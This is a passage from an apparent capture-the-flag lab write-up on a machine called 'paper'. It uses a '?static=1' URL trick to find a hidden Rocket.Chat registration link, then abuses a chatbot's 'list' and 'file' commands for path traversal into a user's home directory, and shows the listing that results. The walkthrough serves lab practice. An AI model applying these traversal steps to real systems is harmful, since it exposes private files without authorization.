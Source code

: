 #### 
The article say tha if we use `?static=1` after the url lik: http://office.paper?static=1 we sould can see the secret content. So if we add this parameter to the url we can see the secret content:
####
```rust
Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
```
####
Well, we discoved a subdomain: **chat.office.paper**. We must to incorporate this subdomain in the `/etc/hosts`. And aim against this subdomain. The sign up panel, ask for a username, email and password. We can try to register a new user.
####
<div class="img">
    <img src="/machines/public/paper/1.png" loading="lazy" decoding="async" />
</div>

####
Well, **Rocket.chat** is very a web application very similar to Discord. Exist a only bot **recyclops**. If you start a new direct chat with this bot you can see that it function with commands. With command `help` a list the commands that we can use.
####
####
####
## First explotation phase
### Rocket.chat:
The most intersting command are: **list** and **file**, the first command seems be a `ls` command, and the second seems be a `cat` command. So we can asume that this web application present a posible [*Path Directory Traversal*]. If we pass to bot the next command: `list ../`, we achieve to see the directories and files of the **dwight** user. The `file` command don't allow us to read the user.txt flag and id_rsa, but in the home exist a diferrent directory: `hubot`.
####
<div class="img">
    <img src="/machines/public/paper/2.png" loading="lazy" decoding="async" />
</div>

####
```bash
1. list ../
2. list ../hubot 
```
####
Exist many files:
####
```bash
total 692
drwx------ 8   dwight dwight 4096   Sep 16 2021  .
drwx------ 11  dwight dwight 281    Feb 6  2022  ..
-rw-r--r-- 1   dwight dwight 0      Jul 3  2021  \
srwxr-xr-x 1   dwight dwight 0      Jul 3  2021  127.0.0.1:8000
srwxrwxr-x 1   dwight dwight 0      Jul 3  2021  127.0.0.1:8080
drwx--x--x 2   dwight dwight 36     Sep 16 2021  bin
-rw-r--r-- 1   dwight dwight 258    Sep 16 2021  .env
-rwxr-xr-x 1   dwight dwight 2      Jul 3  2021  external-scripts.json
drwx------ 8   dwight dwight 163    Jul 3  2021  .git
-rw-r--r-- 1   dwight dwight 917    Jul 3  2021  .gitignore
-rw-r--r-- 1   dwight dwight 491358 Apr 23 18:47 .hubot.log
-rwxr-xr-x 1   dwight dwight 1068   Jul 3  2021  LICENSE
drwxr-xr-x 89  dwight dwight 4096   Jul 3  2021  node_modules
drwx--x--x 115 dwight dwight 4096   Jul 3  2021  node_modules_bak
```
####
<div class="info">